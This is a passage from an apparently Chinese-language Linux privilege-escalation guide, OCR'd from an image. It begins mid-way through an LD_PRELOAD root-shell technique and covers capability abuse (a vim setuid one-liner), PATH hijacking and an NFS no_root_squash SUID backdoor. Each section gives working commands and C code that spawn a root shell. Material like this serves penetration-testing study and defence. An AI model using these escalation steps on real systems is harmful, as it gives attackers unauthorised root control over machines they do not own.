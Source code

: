                 void _init() {
                    unsetenv("LD_PRELOAD"); // 清除环境变量防止无限循环
                    setgid(0);
                    setuid(0);
                    system("/bin/bash -p"); // -p 保持权限
                }
                ```
            3.  编译: `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
            4.  执行: `sudo LD_PRELOAD=/path/to/shell.so <command_allowed_by_sudo>`。
            *   **注意**: 此方法通常在实际用户 ID (RUID) 和有效用户 ID (EUID) 不同时（即 `sudo` 提升权限时）`LD_PRELOAD` 会被安全策略忽略，除非 `sudoers` 中明确允许保留该环境变量。

7.  **利用 Capabilities**
    *   **原理**: Linux Capabilities 将 root 用户的权限细分，可以赋予普通程序部分 root 权限，而无需 SUID。如果程序拥有危险的 Capability (如 `cap_setuid+ep`)，可能被用来提权。
    *   **查找**: `getcap -r / 2>/dev/null` (递归查找，忽略错误)。
    *   **利用**:
        *   检查 GTFOBins 上具有 Capabilities 提权方法的程序。
        *   **示例 (vim with `cap_setuid+ep`)**:
            ```bash
            # 假设 getcap 显示 vim 有 cap_setuid+ep
            ./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/bash", "bash", "-p")'
            # 或者，如果 Python 不可用但 Lua 可用:
            # ./vim -c ':lua os.setuid(0); os.execute("/bin/bash -p")'
            ```

8.  **利用 PATH 环境变量劫持**
    *   **原理**: 如果一个高权限进程（如 SUID 程序或 root 运行的 Cron Job）执行一个命令时没有指定绝对路径，系统会在 `PATH` 环境变量指定的目录中查找该命令。如果 `PATH` 中某个目录对当前用户可写，并且该目录在标准命令目录（如 `/bin`, `/usr/bin`）之前，就可以在该可写目录中创建一个同名的恶意脚本/程序，从而劫持执行流程。
    *   **条件**:
        1.  `PATH` 中存在用户可写的目录。 (`find / -writable -type d 2>/dev/null`)
        2.  该可写目录在 `PATH` 中的顺序优先于包含目标命令的目录。
        3.  有一个高权限进程会以相对路径执行该命令。
        4.  (可选) 用户可以修改 `PATH` 环境变量 (`export PATH=/tmp:$PATH`)。
    *   **利用**:
        1.  识别目标命令和可写目录。
        2.  在可写目录中创建恶意脚本，命名为目标命令 (如 `/tmp/service`)，内容通常是反弹 Shell 或执行 `/bin/bash -p`。赋予执行权限 (`chmod +x /tmp/service`)。
        3.  如果需要，修改 `PATH` 使可写目录优先 (`export PATH=/tmp:$PATH`)。
        4.  触发高权限进程执行该命令。

9.  **利用 NFS 配置错误 (no_root_squash)**
    *   **原理**: NFS (Network File System) 共享允许远程挂载。默认情况下，root 用户在访问 NFS 共享时会被映射为 `nfsnobody` 用户 (root_squash)。如果 NFS 共享配置了 `no_root_squash` 选项，那么 root 用户在客户端访问该共享时将保持其 root 权限。攻击者可以在自己的机器上以 root 身份挂载此共享，在共享目录中创建一个 SUID root 的后门程序，然后在目标机器上（作为普通用户）执行该程序即可提权。
    *   **步骤**:
        1.  **枚举 NFS 共享**: 在目标机或攻击机（如果可达）上使用 `showmount -e <target_ip>`。
        2.  **检查 `/etc/exports`**: 在目标机上查看 `/etc/exports` 文件内容，寻找配置了 `(rw,no_root_squash)` 的共享。
        3.  **挂载共享 (在攻击机)**:
            *   `mkdir /mnt/nfs_share`
            *   `sudo mount -t nfs <target_ip>:<shared_dir> /mnt/nfs_share -o rw` (需要攻击机有 mount.nfs)
        4.  **创建 SUID 后门 (在攻击机挂载点)**:
            *   `cd /mnt/nfs_share`
            *   编写 C 代码 (e.g., `nfs_shell.c`) 执行 `setuid(0); system("/bin/bash -p");`。
            *   `sudo gcc nfs_shell.c -o nfs_shell`
            *   `sudo chmod +s nfs_shell` (设置 SUID 位，因为是在攻击机上以 root 身份操作挂载点)
        5.  **执行后门 (在目标机)**:
            *   切换回目标机的低权限 Shell。
            *   `cd <path_to_shared_dir_on_target>`
            *   `./nfs_shell` (此时会以 root 权限执行)